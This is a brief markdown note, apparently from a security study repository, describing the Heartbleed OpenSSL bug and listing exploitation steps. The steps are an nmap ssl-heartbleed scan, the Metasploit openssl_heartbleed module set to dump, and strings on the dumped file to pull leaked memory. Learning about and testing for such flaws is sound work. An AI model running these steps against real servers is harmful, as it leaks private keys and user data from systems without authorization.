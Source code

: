 # Heartbleed 
Heartbleed was a critical bug affecting ***OPENSSL*** versions ***1.0.1 to 1.0.1f*** which allowed for the reading of encrypted data stored in meomry due to incorrect impelmentation of ***TLS*** and ***DTLS*** protocols. 
***It also allowed for the reading of private keys responsible for securing the data over SSL.***

---
# Exploiting Heartbleed
- First, we need to identify the vulnerable OPENSSL Implementation. This can either be done with nmap scripts or metasploit.
>***Nmap: ***  nmap --script ssl-heartbleed 192.168.1.1
>***Metasploit: use auxilary/scanner/ssl/openssl_heartbleed***

- Remeber to set the ***action to dump*** and run the exploit
- Now u can view the loot file as .bin file 
- We can simply run - ***Strings [.bin File name]***
> Note: Try again if u dont get the leaked data since different content appears at different times within the leaked memory segment.